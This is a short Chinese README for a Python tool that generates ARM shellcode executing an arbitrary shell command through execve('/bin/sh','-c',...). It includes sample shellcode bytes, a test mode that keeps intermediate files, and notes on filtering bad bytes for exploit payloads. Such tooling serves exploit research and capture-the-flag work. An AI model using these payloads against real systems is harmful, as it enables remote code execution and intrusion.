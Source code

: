 用法

```
cd generate_exec_payload
python3 ./generate_shellcode.py "ps -ef"  
```

生成shellcode为执行execve(["/bin/sh","-c","xxxxxxx",NULL])

```
(base) ➜  generate_exec_payload python3 ./generate_shellcode.py "ps -ef"      
b'\x80\x08-\xe9\x04\xb0\x8d\xe2(\xd0M\xe2/0\xa0\xe3\x0c0K\xe5b0\xa0\xe3\x0b0K\xe5i0\xa0\xe3\n0K\xe5n0\xa0\xe3\t0K\xe5/0\xa0\xe3\x080K\xe5s0\xa0\xe3\x070K\xe5h0\xa0\xe3\x060K\xe5\x000\xa0\xe3\x050K\xe5-0\xa0\xe3\x100K\xe5c0\xa0\xe3\x0f0K\xe5\x000\xa0\xe3\x0e0K\xe5p0\xa0\xe3\x180K\xe5s0\xa0\xe3\x170K\xe5 0\xa0\xe3\x160K\xe5-0\xa0\xe3\x150K\xe5e0\xa0\xe3\x140K\xe5f0\xa0\xe3\x130K\xe5\x000\xa0\xe3\x120K\xe5\x0c0K\xe2(0\x0b\xe5\x100K\xe2$0\x0b\xe5\x180K\xe2 0\x0b\xe5\x000\xa0\xe3\x1c0\x0b\xe5\x0c0K\xe2(\xc0K\xe2\x0bp\xa0\xe3\x03\x00\xa0\xe1\x0c\x10\xa0\xe1\x00 \xa0\xe3\x00\x00\x00\xef\x00\x00\xa0\xe1\x04\xd0K\xe2\x80\x08\xbd\xe8\x1e\xff/\xe1'
```



## 测试shellcode

添加--test选项可以保留中间文件用于测试

- /tmp/tmpz67fry2z为对应elf文件
- /tmp/tmpz67fry2z.bin为objcopy得到的汇编指令字节码
- /tmp/tmpz67fry2z.c为脚本生成的嵌入汇编源码，执行execve

```
(base) ➜  generate_exec_payload python3 ./generate_shellcode.py --test "ps -ef"
generate File /tmp/tmpz67fry2z /tmp/tmpz67fry2z.bin /tmp/tmpz67fry2z.c
b'\x80\x08-\xe9\x04\xb0\x8d\xe2(\xd0M\xe2/0\xa0\xe3\x0c0K\xe5b0\xa0\xe3\x0b0K\xe5i0\xa0\xe3\n0K\xe5n0\xa0\xe3\t0K\xe5/0\xa0\xe3\x080K\xe5s0\xa0\xe3\x070K\xe5h0\xa0\xe3\x060K\xe5\x000\xa0\xe3\x050K\xe5-0\xa0\xe3\x100K\xe5c0\xa0\xe3\x0f0K\xe5\x000\xa0\xe3\x0e0K\xe5-0\xa0\xe3\x180K\xe5-0\xa0\xe3\x170K\xe5t0\xa0\xe3\x160K\xe5e0\xa0\xe3\x150K\xe5s0\xa0\xe3\x140K\xe5t0\xa0\xe3\x130K\xe5\x000\xa0\xe3\x120K\xe5\x0c0K\xe2(0\x0b\xe5\x100K\xe2$0\x0b\xe5\x180K\xe2 0\x0b\xe5\x000\xa0\xe3\x1c0\x0b\xe5\x0c0K\xe2(\xc0K\xe2\x0bp\xa0\xe3\x03\x00\xa0\xe1\x0c\x10\xa0\xe1\x00 \xa0\xe3\x00\x00\x00\xef\x00\x00\xa0\xe1\x04\xd0K\xe2\x80\x08\xbd\xe8\x1e\xff/\xe1'
```


新增了generate\_shellcode\_bad.py   get\_shellcode(sys.argv[1],badbyte=b"\x0a")，过滤bad 字节
但是实际需要注意：
1、定位 bad字节汇编指令的方法是 汇编指令数*4，所以不能有优化和非 arm架构指令
2、为了编码 bad字节引入的汇编指令可能存在 bad 字节，需要根据具体问题调整

